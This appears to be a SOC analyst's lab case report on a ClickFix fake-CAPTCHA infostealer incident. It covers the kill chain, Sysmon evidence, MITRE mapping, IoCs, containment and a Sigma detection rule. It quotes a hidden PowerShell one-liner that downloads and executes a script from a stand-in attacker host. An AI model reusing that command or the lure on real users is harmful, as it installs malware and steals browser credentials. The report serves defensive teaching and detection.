

# 🛡️ SOC Investigation Case Report: ClickFix Fake CAPTCHA Campaign

[](https://github.com/)
[](https://github.com/)
[](https://github.com/)
[](https://attack.mitre.org/techniques/T1204/004/)
[](https://github.com/)

---

## 📌 Executive Summary / Resumen Ejecutivo

* **Incident ID:** `ALR-2026-1008-1107`
* **Analyst:** Eridelson Payano
* **Host Affected:** `WKS-MKT-03` (Windows 11)
* **Impacted User:** `academiaspg\cpena` (Carlos Peña - Marketing Department)
* **Date of Occurrence:** October 8, 2026 – 15:04 to 15:07 UTC
* **Verdict:** **True Positive** (Score: 96/100)
* **Incident Category:** Initial Access via Drive-By Compromise / Social Engineering (ClickFix / Fake CAPTCHA) leading to InfoStealer Deployment and Credential Exfiltration.

### Overview
A high-severity alert triggered on host `WKS-MKT-03` when an obfuscated, hidden PowerShell process was spawned directly from the Windows Run prompt (`explorer.exe`). 

Forensic log analysis revealed a modern **ClickFix** social engineering chain: the user navigated to a compromised third-party cooking blog (`www.recetas-del-caribe.example`) which loaded an injected script from an attacker-controlled staging infrastructure (`captcha-verify-cdn.example`). The site displayed a deceptive "Verify you are human" verification challenge. The user was deceived into executing keyboard shortcuts (`Win + R` $\rightarrow$ `Ctrl + V` $\rightarrow$ `Enter`), executing an in-memory PowerShell stager that downloaded, unpacked, and executed a secondary Infostealer payload (`svhelper.exe`).

Within **60 seconds**, the malware targeted local Chromium storage, copying session cookies, saved credentials, and state keys, exfiltrating them to external command-and-control (C2) IP `198.51.100.152` before executing self-deletion routines.

---

## 📸 Console & Investigation Screenshots (Evidencia Visual del SOC)

### 1. Alert Triage & Investigation Questions (5/5 Verified)
Initial EDR alert showing hidden PowerShell execution from the Windows Run box and the verified forensic triage answers.


---

### 2. Endpoint Process Tree & Payload Telemetry (`svhelper.exe`)
Process tree reconstruction showing `explorer.exe` (PID 3000) spawning `powershell.exe` (PID 6680), which drops and executes the infostealer `svhelper.exe` (PID 6744) inside `AppData\Local\Temp\VCRedist\`.


---

### 3. Raw Sysmon Telemetry Timeline
Chronological inspection of the 79 Sysmon events recorded on workstation `WKS-MKT-03` (Process Creation, Registry Modifications, File Creation/Deletion, DNS Queries, and Network Connections).


---

## 🗂️ Repository Structure

> 💡 **Importante al subir a GitHub:** Crea una carpeta llamada `screenshots` en tu repositorio y sube ahí tus 3 capturas con sus nombres exactos para que se muestren automáticamente en esta página.

```text
├── README.md                           # Main incident analysis and portfolio case write-up
├── screenshots/                        # Visual evidence from the EDR / SIEM console
│   ├── Captura de pantalla 2026-10-28 180458.jpg
│   ├── Captura de pantalla 2026-10-28 185143.jpg
│   └── Captura de pantalla 2026-10-28 185656.png
├── telemetry/
│   ├── sysmon.jsonl                    # Raw Sysmon event logs from host WKS-MKT-03
│   └── Verifica que eres humano · SPG Alerta · Academia SPG.pdf
├── detections/
│   └── sigma_runmru_clickfix.yml       # Sigma detection rule for malicious RunMRU writes
└── playbooks/
    └── containment_playbook.md         # Incident containment and remediation protocol
```

---

## 🔬 Attack Kill Chain & Evidence Analysis



---

### Step-by-Step Evidence Deconstruction

#### 1. Initial Social Engineering & Drive-By Redirection
* **Timestamp:** `15:04:10Z - 15:04:13Z`
* **Log Evidence:** Event ID 22 & Event ID 3.
* The user navigated to `www.recetas-del-caribe.example` (IP `203.0.113.45`). The compromised site immediately loaded assets from `captcha-verify-cdn.example` (IP `198.51.100.150`).
* The page simulated an anti-bot check, placing a command onto the clipboard and instructing the user to paste it into the Windows Run box.

#### 2. User Execution via `RunMRU` Artifact (T1204.004)
* **Timestamp:** `15:06:40Z`
* **Sysmon Event ID 13:** Registry Value Written.
* **Registry Key:** `HKU\S-1-5-21-1104-8891-4455-1032\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU\b`
* **Value Injected:**
  ```powershell
  powershell -w h -nop -c "iwr https://captcha-verify-cdn.example/v/9741.txt -UseBasicParsing|iex"  # Soy humano: ID de verificación 9741\1
  ```
* **Analysis:** The `MRUList` updated to `ba`, confirming that the victim opened the Run dialogue and executed the malicious command directly.

#### 3. Process Execution (Execution & Defense Evasion)
* **Timestamp:** `15:06:41Z`
* **Sysmon Event ID 1:** Process Creation.
* **Parent Image:** `C:\Windows\explorer.exe` (PID: `3000`)
* **Process Image:** `C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe` (PID: `6680`)
* **Flags:**
  * `-w h`: Hidden window mode (defense evasion).
  * `-nop`: NoProfile (bypasses execution environment customizations).
  * `iwr | iex`: Downloads memory-only text and invokes it directly without saving initial scripts to disk.

#### 4. Dropper Activity & Payload Deployment
* **Timestamp:** `15:06:46Z - 15:06:50Z`
* **Sysmon Event ID 11 & Event ID 1:**
  * Files written by `powershell.exe`:
    * `C:\Users\cpena\AppData\Local\Temp\VCRedist\pkg.zip`
    * `C:\Users\cpena\AppData\Local\Temp\VCRedist\svhelper.exe`
  * Process spawned:
    ```cmd
    "C:\Users\cpena\AppData\Local\Temp\VCRedist\svhelper.exe" --silent
    ```
  * **Hash (SHA-256):** `0758EE26757EAC80FE1DF6FE6A84745CA9429E268635EE886D58C035CDEEB289`
  * **Evasion Strategy:** Masquerading inside a directory named `VCRedist` to look like a legitimate Microsoft Visual C++ Redistributable installer.

#### 5. Credential Harvesting & Exfiltration
* **Timestamp:** `15:06:55Z - 15:07:09Z`
* **Target Files Created (Staged in Temp):**
  * `ld.db` (Login Data - Google Chrome Vault)
  * `ck.db` (Chrome Cookies / Session Tokens)
  * `ls.json` (Local State / DPAPI encryption master keys)
* **C2 Communication:**
  * DNS Query: `tracker-stats.example` $\rightarrow$ `198.51.100.152`
  * TCP Port 443 HTTPS traffic generated by `svhelper.exe` (PID `6744`).
* **Anti-Forensics / Cleanup:**
  * At `15:07:12Z`, `svhelper.exe` deleted `ld.db`, `ck.db`, `ls.json`, and `pkg.zip`, leaving only the binary on disk.

---

## 🗺️ MITRE ATT&CK Mapping

| Tactic | Technique ID | Technique Name | Observation in Case |
| :--- | :--- | :--- | :--- |
| **Initial Access** | [T1189](https://attack.mitre.org/techniques/T1189/) | Drive-by Compromise | Legitimate site (`recetas-del-caribe.example`) compromised with script injection. |
| **Execution** | [T1204.004](https://attack.mitre.org/techniques/T1204/004/) | User Execution: Malicious Copy-Paste | User lured into pasting command into `Win + R` box under ClickFix deception. |
| **Execution** | [T1059.001](https://attack.mitre.org/techniques/T1059/001/) | Command & Scripting Interpreter: PowerShell | Hidden PowerShell launched with `iwr` (Invoke-WebRequest) piped to `iex`. |
| **Defense Evasion** | [T1564.003](https://attack.mitre.org/techniques/T1564/003/) | Hidden Window | PowerShell executed with parameter `-w h`. |
| **Defense Evasion** | [T1036.005](https://attack.mitre.org/techniques/T1036/005/) | Masquerading: Match Legitimate Name/Location | Executable placed in fake `VCRedist` directory. |
| **Defense Evasion** | [T1070.004](https://attack.mitre.org/techniques/T1070/004/) | Indicator Removal: File Deletion | Infostealer deletes `.db` and `.zip` artifacts post-transmission. |
| **Credential Access**| [T1539](https://attack.mitre.org/techniques/T1539/) | Steal Web Session Cookie | Browser session database (`ck.db`) queried and copied. |
| **Credential Access**| [T1555.003](https://attack.mitre.org/techniques/T1555/003/) | Credentials from Web Browsers | Chrome Login Data (`ld.db`) extracted. |
| **Command & Control**| [T1071.001](https://attack.mitre.org/techniques/T1071/001/) | Application Layer Protocol: Web Protocols | TLS/HTTPS (Port 443) communication to staging and C2 domains. |
| **Exfiltration** | [T1041](https://attack.mitre.org/techniques/T1041/) | Exfiltration Over C2 Channel | Theft of browser credentials transmitted to `198.51.100.152`. |

---

## 🎯 Indicators of Compromise (IoCs)

### Network IoCs
| Indicator | Type | Context / Role | Status |
| :--- | :--- | :--- | :--- |
| `captcha-verify-cdn.example` | Domain | Fake CAPTCHA staging & 2nd-stage script hosting | Malicious / Block |
| `198.51.100.150` | IPv4 | Staging Server IP | Malicious / Block |
| `tracker-stats.example` | Domain | Infostealer C2 Panel / Exfiltration endpoint | Malicious / Block |
| `198.51.100.152` | IPv4 | C2 Destination IP | Malicious / Block |
| `www.recetas-del-caribe.example` | Domain | Compromised legitimate website | Compromised / Alert Webmaster |
| `203.0.113.45` | IPv4 | Host of compromised site | Informational |

### Host IoCs
| Indicator | Type | Details |
| :--- | :--- | :--- |
| `svhelper.exe` | File / Binary | Infostealer dropped in `AppData\Local\Temp\VCRedist\` |
| `0758EE26757EAC80FE1DF6FE6A84745CA9429E268635EE886D58C035CDEEB289` | SHA-256 | Hash of `svhelper.exe` |
| `HKU\...\RunMRU\b` | Registry Key | Recorded command payload execution |

---

## 🛑 Containment, Eradication & Remediation Actions

### 1. Actions Applied (Correct Measures)
* ✅ **Endpoint Isolation:** Host `WKS-MKT-03` isolated from network via EDR agent without powering off, preserving volatile RAM contents for memory acquisition.
* ✅ **Token & Session Revocation:** All active Microsoft 365, Azure AD, and SSO browser session tokens revoked for user `cpena`.
* ✅ **Immediate Password Resets:** Mandatory password reset enforced for user's Active Directory account and guidance provided to reset all personal credentials saved in Chrome.
* ✅ **Perimeter Blocking:** IOCs (`captcha-verify-cdn.example`, `tracker-stats.example`, and their respective IPs) blocked at firewall, proxy, and DNS sinkhole levels.
* ✅ **Incident Escalation:** Escalated to Tier 2/Tier 3 Incident Response for secondary lateral movement sweep and log audits across tenant applications.

### 2. Actions Avoided (Mitigating Secondary Damage)
* ❌ **Premature File Deletion:** `svhelper.exe` was **not** deleted prior to acquisition; wiping the binary would destroy forensic evidence needed to determine malware family and capabilities.
* ❌ **Disabling User Account:** Account was kept enabled with revoked sessions and forced password reset to avoid disruption of essential business tasks post-cleanup.
* ❌ **Mail Server Isolation:** Mail infrastructure was unaffected by the browser-driven compromise; isolating mail servers would have caused critical collateral business downtime.

---

## 🔎 Detection Engineering: Sigma Rule

```yaml
title: Potential ClickFix Fake CAPTCHA Command Execution via RunMRU
id: c4f78311-5e72-4d76-9d62-1b6a782875a1
status: experimental
description: Detects execution of hidden PowerShell stagers written into Explorer RunMRU registry key following social engineering prompts.
references:
    - https://attack.mitre.org/techniques/T1204/004/
author: Eridelson Payano
date: 2026-10-28
logsource:
    category: registry_set
    product: windows
detection:
    selection_registry:
        TargetObject|contains: '\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU'
    selection_payload:
        Details|contains:
            - 'powershell'
            - 'iwr'
            - 'iex'
            - '-w h'
            - '-windowstyle hidden'
    condition: selection_registry and selection_payload
fields:
    - TargetObject
    - Details
    - Image
    - User
falsepositives:
    - Rare administrative maintenance scripts manually pasted by system administrators.
level: high
tags:
    - attack.execution
    - attack.t1204.004
    - attack.t1059.001
```

---

## 💡 Lessons Learned & Strategic Recommendations

1. **Disable Run Dialog via GPO:** Enforce Group Policy to disable `Win + R` for non-administrative corporate units (e.g., Marketing, HR).
2. **Constrained Language Mode (CLM):** Deploy PowerShell AppLocker / WDAC policies to force non-admin accounts into Constrained Language Mode, preventing dynamic evaluation (`iwr | iex`).
3. **End-User Awareness:** Train personnel against modern ClickFix vectors: *legitimate browser CAPTCHAs never require pasting code into terminal prompts or the Windows Run utility.*

---
*Report compiled by **Eridelson Payano** | Certified SOC Analyst Practice Labs*